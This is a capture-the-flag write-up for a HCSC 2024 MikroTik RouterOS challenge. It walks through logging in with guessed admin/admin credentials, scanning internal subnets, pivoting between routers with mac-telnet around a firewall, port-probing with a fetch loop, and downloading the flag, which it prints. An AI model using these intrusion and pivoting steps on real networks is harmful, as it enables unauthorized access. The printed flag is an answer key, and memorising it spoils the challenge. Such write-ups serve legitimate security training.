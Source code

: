 # HCSC 2024 - Csak egy litván hálózat

## Description

Volt egyszer egy cég Európában, Litvániában, akik álmodtak egy nagyot.

Méltatlanul alulreprezentált a népszerűségük, holott minden téren felvehetik a versenyt a nagy gyártókkal.
De mire is képesek ők?
A kihívás során elképesztő hálózati megoldásokkal találkozhatsz. Olyan magasságokat is láthatsz, ahová nem kell a lift.

Készítői kommentek:
* a megoldáshoz brute-force nem szükséges
* Kellékek a megoldáshoz: VPN hozzáférés
* a challenge alapvetően egyetlen porton fut, de ez nem jelenti azt, hogy a teljes challenge során egy portot is kell használni

**Flag formátum**: `HCSC24{...}` ahol a '...' helyén szerepel a flag.

*By [TheAdam](https://github.com/adns44)*

> Hint 1 (cost 0): /tool/push és utálom a szomszédaim, de mindig megtalálom őket

> Hint 2 (cost 175): Portb 11111101000

## Metadata

- Tags: `mikrotik`, `networking`, `mac-telnet`
- Points: `350`
- Number of solvers: `4`
- Filename: -

## Solution

**I needed the two hints to solve this challenge.**

The challenge was running on `10.10.(1-9).10:32860`. Nmap says the following:

```
32860/tcp open     ssh     MikroTik RouterOS sshd (protocol 2.0)
```

Let's try to `SSH` in and guess that the credentials are `admin`/`admin`:

```
$ ssh admin@10.10.5.10 -p 32860
  MMM      MMM       KKK                          TTTTTTTTTTT      KKK
  MMMM    MMMM       KKK                          TTTTTTTTTTT      KKK
  MMM MMMM MMM  III  KKK  KKK  RRRRRR     OOOOOO      TTT     III  KKK  KKK
  MMM  MM  MMM  III  KKKKK     RRR  RRR  OOO  OOO     TTT     III  KKKKK
  MMM      MMM  III  KKK KKK   RRRRRR    OOO  OOO     TTT     III  KKK KKK
  MMM      MMM  III  KKK  KKK  RRR  RRR   OOOOOO      TTT     III  KKK  KKK

  MikroTik RouterOS 7.13.5 (c) 1999-2024       https://www.mikrotik.com/

Press F1 for help

[admin@hcsc-main-1] >
```

It worked, we are in a Miktorik router.

Unfortunately, we are a `read-only` user, we cannot modify the configuration, however, we can execute many useful commands like: `/export show-sensitive verbose` which prints almost all the relevant details about the router ([`hcsc-main-1.conf`](files/hcsc-main-1.conf)).

SSH port forwarding is disabled, so we cannot do dynamic port forwarding + socks + proxychains...

If we check the interfaces, it is interesting that there are two of the: `ether1` and `ether3`. If we run `mac-scan` and `ip-scan` tools we can find some internal devices in the `192.168.1.0/24` range:

```
[admin@hcsc-main-1] > interface ethernet print
Flags: R - RUNNING
Columns: NAME, MTU, MAC-ADDRESS, ARP
#   NAME     MTU  MAC-ADDRESS        ARP
0 R ether1  1500  52:54:00:12:34:56  enabled
1 R ether3  1500  52:54:00:12:34:51  enabled

[admin@hcsc-main-1] > tool mac-scan
interface: ether3
Columns: MAC-ADDRESS, ADDRESS, AGE
MAC-ADDRESS        ADDRESS        AGE
52:54:00:12:34:56  192.168.1.1     18
52:54:00:12:34:11  192.168.1.200   15
52:54:00:12:34:51  0.174.0.0       18

[admin@hcsc-main-1] > tool ip-scan
address-range     as-value     duration     freeze-frame-interval     interface     without-paging

[admin@hcsc-main-1] > tool ip-scan address-range=192.168.1.0/24
Columns: ADDRESS, MAC-ADDRESS
ADDRESS        MAC-ADDRESS
192.168.1.1    52:54:00:12:34:56
192.168.1.42   6A:8F:E2:47:8D:B2
192.168.1.200  52:54:00:12:34:11
```

The IP address `192.168.1.42` looks interesting, as it has a completely different MAC address as the other devices. 

What is very very confusing is that our current router has the MAC address of `52:54:00:12:34:56` and the device at `192.168.1.1` also has the same MAC address, but it is a different device. Our device does not have any IP address on the `ether3` interface:

```
[admin@hcsc-main-1] > ip address print
Flags: D - DYNAMIC
Columns: ADDRESS, NETWORK, INTERFACE
#   ADDRESS       NETWORK   INTERFACE
0 D 10.0.2.15/24  10.0.2.0  ether1
```

Because of this we cannot communicate with the devices on an IP level, but we might be able to use `mac-telnet` to login to the other devices.

> MAC telnet is used to provide access to a router that has no IP address set. It works just like IP telnet. MAC telnet is possible between two MikroTik RouterOS routers only.

```
[admin@hcsc-main-1] > tool mac-telnet 6A:8F:E2:47:8D:B2
Login: admin
Password:
Trying 6A:8F:E2:47:8D:B2...

Welcome back!
[admin@hcsc-main-1] > tool mac-telnet 52:54:00:12:34:11
Login: admin
Password:
Trying 52:54:00:12:34:11...
Connected to 52:54:00:12:34:11


  MMM      MMM       KKK                          TTTTTTTTTTT      KKK
  MMMM    MMMM       KKK                          TTTTTTTTTTT      KKK
  MMM MMMM MMM  III  KKK  KKK  RRRRRR     OOOOOO      TTT     III  KKK  KKK
  MMM  MM  MMM  III  KKKKK     RRR  RRR  OOO  OOO     TTT     III  KKKKK
  MMM      MMM  III  KKK KKK   RRRRRR    OOO  OOO     TTT     III  KKK KKK
  MMM      MMM  III  KKK  KKK  RRR  RRR   OOOOOO      TTT     III  KKK  KKK

  MikroTik RouterOS 7.13.5 (c) 1999-2024       https://www.mikrotik.com/

Press F1 for help

[admin@hcsc-internal-client] >
```

We could log in to `192.168.1.200` with `admin` / `admin`. However, we cannot go further because of the restrictive firewall rule, but we can `ping` the other two devices:

```
[admin@hcsc-internal-client] > :for i from=1 to=256 do={ /ping "192.168.1.$i" count=1 }
Columns: SEQ, HOST, SIZE, TTL, TIME
SEQ  HOST         SIZE  TTL  TIME
  0  192.168.1.1    56   64  15ms510us
[...]
Columns: SEQ, HOST, SIZE, TTL, TIME
SEQ  HOST          SIZE  TTL  TIME
  0  192.168.1.42    56   64  5ms153us
[...]

[admin@hcsc-internal-client] > ip firewall filter print
Flags: X - disabled, I - invalid; D - dynamic
 0    chain=output action=drop protocol=tcp
```

Let's try to login to `192.168.1.1` (`admin` / `admin`):

```
[admin@hcsc-main-1] > tool mac-telnet 52:54:00:12:34:56
Login: admin
Password:
Trying 52:54:00:12:34:56...
Connected to 52:54:00:12:34:56


  MMM      MMM       KKK                          TTTTTTTTTTT      KKK
  MMMM    MMMM       KKK                          TTTTTTTTTTT      KKK
  MMM MMMM MMM  III  KKK  KKK  RRRRRR     OOOOOO      TTT     III  KKK  KKK
  MMM  MM  MMM  III  KKKKK     RRR  RRR  OOO  OOO     TTT     III  KKKKK
  MMM      MMM  III  KKK KKK   RRRRRR    OOO  OOO     TTT     III  KKK KKK
  MMM      MMM  III  KKK  KKK  RRR  RRR   OOOOOO      TTT     III  KKK  KKK

  MikroTik RouterOS 7.13.5 (c) 1999-2024       https://www.mikrotik.com/

Press F1 for help

[admin@hcsc-internal-main] > interface print
Flags: R - RUNNING
Columns: NAME, TYPE, ACTUAL-MTU, MAC-ADDRESS
#   NAME    TYPE   ACTUAL-MTU  MAC-ADDRESS
0 R ether1  ether        1500  52:54:00:12:34:56

[admin@hcsc-internal-main] > ip address print
Columns: ADDRESS, NETWORK, INTERFACE
# ADDRESS         NETWORK      INTERFACE
0 192.168.1.1/24  192.168.1.0  ether1

[admin@hcsc-internal-main] > ip firewall export
# 2024-05-02 23:04:10 by RouterOS 7.13.5
# software id =
#
```

There are no firewall restrictions!!! We can now try to communicate with `192.168.1.42`. Let's run a short script to determine whether it has any `HTTP` ports open:

```
[admin@hcsc-internal-main] > :for i from=1 to=65535 do={ :do { /tool/fetch output=user http-method=get url="http://192.168.1.42:$i/" } on-error={ :put $i } }
2023
      status: finished
  downloaded: 0KiB
    duration: 0s
        data: <html> <head><title>Index of /</title></head> <body> <h1>Index of /</h1><hr><pre><a href="../">../</a> <a href="flag.txt">flag.txt</a> 27-Apr-2024 07:49 44
              </pre><hr></body> </html>
  status: failed
2025
```

Port 2024 is open and there is `/flag.txt` file, let's download is:

```
[admin@hcsc-internal-main] > /tool fetch url="http://192.168.1.42:2024/flag.txt" output=user
      status: finished
  downloaded: 0KiBse]
       total: 0KiB
    duration: 1s
        data: HCSC24{ROUTEROS-IS-THE-NEAREST-TO-THE-B1ST}
```

Flag: `HCSC24{ROUTEROS-IS-THE-NEAREST-TO-THE-B1ST}`
